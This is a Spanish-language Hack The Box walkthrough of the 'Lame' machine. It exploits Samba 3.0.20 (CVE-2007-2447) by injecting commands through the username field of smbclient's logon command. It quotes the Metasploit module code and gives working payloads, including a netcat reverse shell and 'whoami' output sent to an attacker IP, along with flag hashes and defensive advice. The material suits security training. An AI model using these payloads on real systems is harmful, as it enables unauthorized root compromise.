# Lame — Hack The Box

**Plataforma:** Hack The Box  
**Dificultad:** 🟢 Fácil  
**SO:** Linux  
**Autor de la máquina:** ch4p  
**Fecha de resolución:** 2026  
**Técnicas:** Nmap · Enum4linux · smbclient · Samba 3.0.20 · CVE-2007-2447 · Username Map Script · Command Injection · Reverse Shell

---

## Índice

1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración de servicios](#2-enumeración-de-servicios)
3. [Acceso inicial — Samba Username Map Script](#3-acceso-inicial--samba-username-map-script)
4. [Enumeración SMB anónima](#4-enumeración-smb-anónima)
5. [Explotación manual desde smbclient](#5-explotación-manual-desde-smbclient)
6. [Obtención de shell como root](#6-obtención-de-shell-como-root)
7. [Post-explotación y flags](#7-post-explotación-y-flags)
8. [Lección aprendida](#8-lección-aprendida)

---

## 1. Reconocimiento

Comenzamos comprobando conectividad con la máquina objetivo mediante ICMP.

```bash
ping -c 1 10.129.37.215
```



Salida obtenida:

```text
64 bytes from 10.129.37.215: icmp_seq=1 ttl=63 time=33.1 ms
```

> 💡 El parámetro `-c 1` envía un único paquete ICMP. Solo necesitamos verificar conectividad. El valor `TTL=63` suele indicar que estamos frente a una máquina Linux (TTL inicial 64 menos un salto de red).

---

### Escaneo inicial de puertos

Realizamos un escaneo completo de todos los puertos TCP con Nmap.

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- 10.129.37.215 -oN AllPorts
```



### Explicación de parámetros utilizados

| Parámetro | Función |
|---|---|
| `-sS` | SYN Scan rápido y sigiloso |
| `-Pn` | Omite descubrimiento por ping |
| `-vvv` | Máximo nivel de verbosidad |
| `--min-rate 5000` | Fuerza una velocidad mínima de 5000 paquetes por segundo |
| `--open` | Muestra solo puertos abiertos |
| `-n` | Evita resolución DNS |
| `-p-` | Escanea los 65535 puertos TCP |
| `-oN` | Guarda el resultado en formato normal |

Resultado relevante:

```text
21/tcp    open  ftp
22/tcp    open  ssh
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3632/tcp  open  distccd
```

> 💡 La combinación de **139 + 445** revela un servidor **Samba** (implementación de SMB sobre Linux). El puerto **3632** corresponde a `distccd`, un servicio de compilación distribuida con vulnerabilidades de RCE conocidas. Una superficie de ataque muy interesante.

---

## 2. Enumeración de servicios

Una vez identificados los puertos abiertos, realizamos un escaneo más profundo con detección de versiones y scripts NSE.

```bash
nmap -sS -sCV -T5 -p21,22,139,445,3632 10.129.37.215 -oN Ports
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-sCV` | Ejecuta detección de versiones y scripts NSE |
| `-T5` | Timing agresivo para acelerar el escaneo |

Salida relevante:

```text
21/tcp    open  ftp          vsftpd 2.3.4
22/tcp    open  ssh          OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
139/tcp   open  netbios-ssn  Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp   open  netbios-ssn  Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp  open  distccd      distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
```

> 💡 Tres servicios con vulnerabilidades históricas:
> - `vsftpd 2.3.4` → backdoor en el banner "smiley face" (CVE-2011-2523)
> - `Samba 3.0.20` → *Username map script* (CVE-2007-2447) — el vector principal
> - `distccd v1` → ejecución remota de comandos (CVE-2004-2687)
>
> En este writeup nos centraremos en el **Samba 3.0.20**, que es el camino más limpio y explotable manualmente.

---

## 3. Acceso inicial — Samba Username Map Script

### Búsqueda del exploit

Buscamos exploits públicos asociados al servicio detectado mediante `searchsploit`.

```bash
searchsploit samba 3.0.20
```



Resultado relevante:

```text
Samba 3.0.20 < 3.0.25rc3 - 'Username map script' Command Execution (Metasploit)
                                                                  linux/remote/16320.rb
```

> 💡 El exploit `16320.rb` corresponde a **CVE-2007-2447**: un fallo en la opción `username map script` de Samba que permite **inyección de comandos** a través del campo `username` durante la sesión SMB. Cualquier shell metacharacter en el nombre de usuario se ejecuta en la shell del servidor.

---

### Análisis del exploit

Inspeccionamos la sección `exploit` del módulo Ruby para entender exactamente cómo se dispara la vulnerabilidad.



```ruby
def exploit
    connect

    # lol?
    username = "/=`nohup " + payload.encoded + "`"
    begin
        simple.client.negotiate(false)
        simple.client.session_setup_ntlmv1(username, rand_text(16), datastore['SMBDomain'], false)
    rescue ::Timeout::Error, XCEPT::LoginError
        # nothing, it either worked or it didn't ;)
    end

    handler
    disconnect
end
```

### Explicación de la vulnerabilidad

| Elemento | Función |
|---|---|
| `username = "/=`nohup ...`"` | Inyecta un comando dentro del campo *username* del SMB session setup |
| ``` `...` ``` | Sustitución de comandos en Bash; lo que esté dentro se ejecuta |
| `nohup` | Lanza el proceso desligado de la sesión, evitando que muera al cerrar la conexión |
| `payload.encoded` | El comando real (en nuestro caso, una reverse shell) |
| `session_setup_ntlmv1` | Envía el username preparado al servidor Samba, disparando la ejecución |

> 💡 La vulnerabilidad se reproduce **manualmente** muy fácilmente: cualquier cliente SMB que permita personalizar el username sirve. Vamos a usar `smbclient` directamente — más limpio y didáctico que cargar Metasploit.

---

## 4. Enumeración SMB anónima

Antes de explotar, completamos la enumeración del servicio SMB para confirmar acceso anónimo.

### Enum4linux

```bash
enum4linux -a 10.129.37.215
```



La salida lista los recursos compartidos del servidor:



```text
Sharename       Type      Comment
---------       ----      -------
print$          Disk      Printer Drivers
tmp             Disk      oh noes!
opt             Disk
IPC$            IPC       IPC Service (lame server (Samba 3.0.20-Debian))
ADMIN$          IPC       IPC Service (lame server (Samba 3.0.20-Debian))
```

> 💡 El recurso `tmp` con el comentario *"oh noes!"* es una pista clásica de los autores de HTB. Comprobamos si está accesible sin credenciales.

---

### Verificación con smbclient

```bash
smbclient -L \\\\10.129.37.215 -N
```



### Explicación de parámetros

| Parámetro | Función |
|---|---|
| `-L` | Lista los recursos compartidos del servidor |
| `\\\\IP` | Notación UNC del host SMB |
| `-N` | *No password*: intenta autenticación anónima |

```text
Anonymous login successful
```

✅ El servidor permite conexiones anónimas. Esto nos da una sesión sobre la que disparar la inyección.

---

### Conexión al recurso `tmp`

```bash
smbclient \\\\10.129.37.215\\tmp -N
smb: \> ls
```



Tenemos un prompt interactivo de SMB con acceso de escritura.

---

## 5. Explotación manual desde smbclient

### El comando `logon`

Dentro de la shell interactiva de `smbclient`, el comando `help` lista todas las operaciones disponibles. Una de ellas, **`logon`**, es la pieza clave:



```text
smb: \> help logon
smb: \> logon
logon <username> [<password>]
```



> 💡 El comando `logon` permite reintentar la autenticación SMB con un **username arbitrario**. Como el servidor Samba 3.0.20 pasa ese username a una shell vía la directiva `username map script`, podemos inyectar nuestros propios comandos exactamente como hace el exploit de Metasploit, pero de forma totalmente manual.

---

### Prueba de concepto — confirmación de RCE

Antes de lanzar una reverse shell, validamos que la ejecución de comandos funciona enviando un `ping` hacia nuestra máquina y capturando el tráfico ICMP con `tcpdump`.

**Terminal 1 — captura ICMP:**

```bash
sudo tcpdump -i tun0 icmp -n
```



**Terminal 2 — inyección desde smbclient:**

```text
smb: \> logon "/=`nohup ping -c 1 10.10.14.63`"
```


### Explicación del payload

| Componente | Función |
|---|---|
| `"/=...` | Prefijo que evita errores de parsing en el `username` |
| `` `...` `` | Sustitución de comandos: lo que esté dentro se ejecuta como shell |
| `nohup` | Desliga el proceso de la sesión para que no muera al desconectar |
| `ping -c 1 10.10.14.63` | Envía un único paquete ICMP a nuestra IP |

**Resultado en tcpdump:**



```text
13:30:11.708438 IP 10.129.37.215 > 10.10.14.63: ICMP echo request, id 52504, seq 1, length 64
13:30:11.708451 IP 10.10.14.63 > 10.129.37.215: ICMP echo reply,   id 52504, seq 1, length 64
```

✅ **RCE confirmado**: la víctima nos hace ping, lo que demuestra que ejecuta nuestros comandos.

---

### Verificación de privilegios

Para confirmar **bajo qué usuario** corre Samba, exfiltramos la salida de `whoami` vía Netcat.

**Terminal 1 — listener:**

```bash
nc -lvnp 443
```



**Terminal 2 — inyección:**

```text
smb: \> logon "/=`nohup whoami | nc 10.10.14.63 443`"
```



**Salida en el listener:**



```text
connect to [10.10.14.63] from (UNKNOWN) [10.129.37.215] 43261
root
```

> 💡 Samba está ejecutándose **directamente como `root`**, lo que significa que cualquier comando que inyectemos correrá con privilegios máximos. No hay escalada de privilegios que valga: ya somos root tras la primera inyección.

---

## 6. Obtención de shell como root

### Lanzamiento de la reverse shell

Aprovechamos que `nc` está disponible en la víctima con soporte para `-e` (la versión "tradicional", no la `nc.openbsd`) para obtener una shell interactiva.

**Terminal 1 — listener:**

```bash
nc -lvnp 443
```

**Terminal 2 — inyección final:**

```text
smb: \> logon "/=`nohup nc -e /bin/bash 10.10.14.63 443`"
```



### Explicación del payload

| Componente | Función |
|---|---|
| `nc -e /bin/bash` | Reverse shell clásica: ejecuta `/bin/bash` y conecta sus stdio al socket |
| `10.10.14.63 443` | IP y puerto de nuestro listener |

**Recibimos la conexión:**



```text
listening on [any] 443 ...
connect to [10.10.14.63] from (UNKNOWN) [10.129.37.215] 37136
whoami
root
```

✅ Compromiso total de la máquina.

---

## 7. Post-explotación y flags

Ya como `root`, navegamos a las ubicaciones habituales de las flags.

```bash
cd /home
ls
cd makis
cat user.txt
cat /root/root.txt
```



```text
user.txt: 5470264383e686365c59f89679444374
root.txt: 6dbcd670ab4eba678367f923b096a006
```

✅ Máquina completada.

---

## 8. Lección aprendida

Esta máquina es un ejemplo de manual de **cómo el software desactualizado y la ejecución como root** convierten un fallo de validación de entrada en un compromiso instantáneo.

| Vulnerabilidad | Dónde | Impacto |
|---|---|---|
| Samba 3.0.20 vulnerable | CVE-2007-2447 (`username map script`) | Ejecución remota de comandos no autenticada |
| Acceso SMB anónimo permitido | Recursos compartidos `tmp`, `opt` | Punto de entrada sin credenciales |
| Servicio Samba ejecutado como root | smbd | Compromiso directo a root sin escalada |
| Falta de parches en el host | Software de 2007 | Múltiples CVEs explotables (Samba, vsftpd, distccd) |

---

## Recomendaciones defensivas

- Mantener Samba actualizado: cualquier versión anterior a la `3.0.25rc3` es vulnerable a `username map script`. Desactivar esa directiva si no se usa.
- Deshabilitar el acceso anónimo a recursos compartidos (`map to guest = bad user`).
- Ejecutar `smbd` bajo un usuario dedicado y de bajo privilegio, nunca como `root`.
- Eliminar servicios obsoletos sin uso (`distccd`, FTP anónimo).
- Aplicar segmentación de red: SMB nunca debería ser accesible desde redes externas o no confiables.
- Monitorizar logs de Samba en busca de usernames con caracteres anómalos (\`, `;`, `|`, `$`, etc.).
- Implementar reglas Snort/Suricata específicas para `Samba username map script` y otras CVEs históricas si se mantienen sistemas legacy.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*  
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
